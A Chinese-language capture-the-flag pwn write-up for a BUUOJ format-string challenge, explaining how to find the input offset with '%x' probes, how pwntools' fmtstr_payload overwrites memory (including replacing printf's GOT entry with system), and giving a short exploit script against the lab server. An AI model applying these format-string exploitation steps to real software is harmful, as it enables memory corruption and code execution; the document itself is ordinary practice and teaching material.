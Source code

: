 很容易知道，让x=4就可以得到flag了，但这是第一次做到格式化字符串得问题，不了解就先看wp了，
对于格式化字符串漏洞第一步就是去查看这个输入的偏移量，这里可以输入aaaa %x %x %x...这样的字符串，因为他的printf前面没有格式化字符，所以对于输入的结果会按照这个格式化字符依次输出栈上的内容，那么我们就可以去得到这个输入在栈上的位置
![alt text](image-20.png)
可以看到其偏移量是11，因为0x61616161是我输入a的16进制结果
那么这个偏移量有什么用呢，下面就必须分析一个超级牛逼的函数：
fmtstr_payload(offset,writes)
这个函数还有一些其他参数，但是由于这道题不需要知道那么多，所以知道这两个参数怎么用就可以了，第一个参数就是偏移量，就是我们上面得到的结果，他的值是11.第二个就非常牛逼了，它是一个字典，它的键是地址，然后值可以任意，最后可以将对应地址的值改为这个任意值。
```bash
fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)
第一个参数表示格式化字符串的偏移
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT:systemAddress}；
第三个参数表示已经输出的字符个数
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写

```
![alt text](image-21.png)
exp：
```python
from pwn import *

r=remote("node5.buuoj.cn",'27939')

x_adr=0x0804A02C 
#r.recvuntil('your name:')
#r.sendline('-1')
#r.recvuntil('u name?')
payload=fmtstr_payload(offset=11,writes={x_adr:4})
r.sendline(payload)
r.interactive()
```
原理看这个[格式化字符串漏洞原理及其利用（附带pwn例题讲解）](https://blog.csdn.net/qq_73985089/article/details/137199087?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522c033af0c7c8af025b367d901cdc821e4%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=c033af0c7c8af025b367d901cdc821e4&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-137199087-null-null.142^v102^pc_search_result_base5&utm_term=%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E&spm=1018.2226.3001.4187)

## axb_2019_fmt32
